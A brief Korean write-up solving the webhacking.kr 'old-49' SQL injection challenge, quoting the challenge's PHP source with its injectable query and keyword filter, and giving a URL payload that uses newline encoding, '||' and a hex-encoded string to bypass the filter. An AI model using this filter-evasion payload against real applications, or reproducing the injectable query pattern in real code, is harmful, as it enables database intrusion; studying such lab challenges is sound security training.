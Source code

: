 ```yaml
---
title: ["[Webhacking.kr] old-49 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
```  

old-46과 동일한 DB인 것 같다.  
`(`, ` `, `\t`를 필터링하지만, `%0a`로 공백을 우회할 수 있다.

```
?lv=0%7c%7cid%0alike%0a0x61646d696e%23
```
